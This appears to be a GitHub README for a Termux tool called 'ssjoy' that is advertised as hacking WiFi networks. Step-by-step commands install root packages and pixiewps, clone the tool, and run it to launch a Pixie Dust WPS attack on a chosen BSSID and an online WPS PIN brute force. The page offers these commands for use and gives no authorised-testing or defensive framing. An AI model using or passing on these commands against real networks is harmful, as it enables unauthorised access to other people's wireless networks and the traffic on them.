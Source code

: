 ## ssjoy
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ apt install -y root-repo
$ apt install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/Joy43/wifi_joy.git
$ cd ssjoy
$ chmod +x joy.py
$ sudo python joy.py --help
```
* Run joy.py with python3
    * On kali linux
        ```bash
        python3 joy.py -i wlan0 -K
        ```

#### Example : `python3 joy.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python joy.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python joy.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python joy.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
